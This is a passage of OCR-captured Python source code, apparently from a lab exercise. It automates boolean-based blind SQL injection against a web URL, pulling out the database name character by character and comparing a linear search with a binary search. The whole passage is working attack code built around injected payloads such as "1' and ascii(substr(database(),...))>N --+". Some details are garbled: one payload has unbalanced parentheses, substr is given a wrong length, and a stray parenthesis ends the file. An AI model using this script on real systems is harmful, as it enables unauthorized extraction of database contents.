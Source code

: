 ```python
            if mark in r.text:
                db_name += chr(i)
                print('database:', db_name)
                exit_flag = False
                break
            pass
        j += 1
    return db_name


def probe_database_binary():
    db_name = ''
    # params = {'id': "1' and ascii(substr(database(),1,1))=115 --+"}

    # all visible character is: 32( )->126(~)
    j = 1
    exit_flag = False
    while not exit_flag:
        # always assume we will exit in this loop
        exit_flag = True
        low = 32
        high = 126
        while high >= low:
            mid = (low + high) // 2
            payload = f"1' and ascii(substr(database(),{j},{j})={mid} --+"
            r = requests.get(base_url + payload)
            if mark in r.text:
                db_name += chr(mid)
                print('database:', db_name)
                exit_flag = False
                break
            pass

            # another test for narrow down left or right range to search
            payload = f"1' and ascii(substr(database(),{j},{j}))>{mid} --+"
            r = requests.get(base_url + payload)
            if mark in r.text:
                low = mid + 1
            else:
                high = mid - 1
            pass
        j += 1
    return db_name


if __name__ == '__main__':
    print("linear:")
    measure_time(lambda: probe_database_linear())

    print("\nbinary:")
    measure_time(lambda: probe_database_binary())
)
```
